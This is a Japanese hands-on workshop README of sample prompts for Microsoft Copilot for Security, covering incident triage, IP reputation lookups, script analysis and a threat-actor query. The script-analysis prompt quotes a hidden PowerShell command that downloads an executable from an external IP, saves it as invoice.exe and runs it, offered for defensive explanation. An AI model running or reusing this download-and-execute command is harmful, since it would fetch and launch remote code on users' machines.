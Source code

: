 ![Security CoPilot Logo](https://github.com/ninjyanaka/Copilot-For-Security/blob/main/Promptbook%20samples/ic_fluent_copilot_64_64%402x.png)
# Microsoft Copilot for Security Workshop case1

***
&nbsp;
## ハンズオンシナリオ➁ インシデント分析編

 ```
Microsoft Defender XDRから、優先すべき重大度の高いインシデントの上位5件を教えて。
 ```
 ```
Defender XDR Incident 50 について教えて
 ```
 ```
Defender XDR Incident 50 に関連するエンティティについて教えて
 ```
 ```
MDTIを使用して、このIPアドレス 185.220.101.86 のレピュテーションスコアを教えて
 ```
 ```
VirusTotal を使用して、このIPアドレス 185.220.101.86 のレピュテーションスコアを教えて
 ```
 ```
調査結果をエグゼクティブ・レポートにまとめて
 ```

***
&nbsp;
## ハンズオンシナリオ➁　スクリプト分析編

 ```
以下のスクリプトは、どのような動作をするのか、順を追って説明し、その意図を推測してください
Script:powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference = 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://185.82.217.3/1.exe', 'C:\\test-WDATP-test\\invoice.exe');Start-Process 'C:\\test-WDATP-test\\invoice.exe'\\invoice.exe'
 ```

***
&nbsp;
## ハンズオンシナリオ➁　脅威インテリジェンス編

 ```
私はセキュリティエンジニアです。攻撃アクターグループ "Volt Typhoon"について、教えて下さい。
 ```

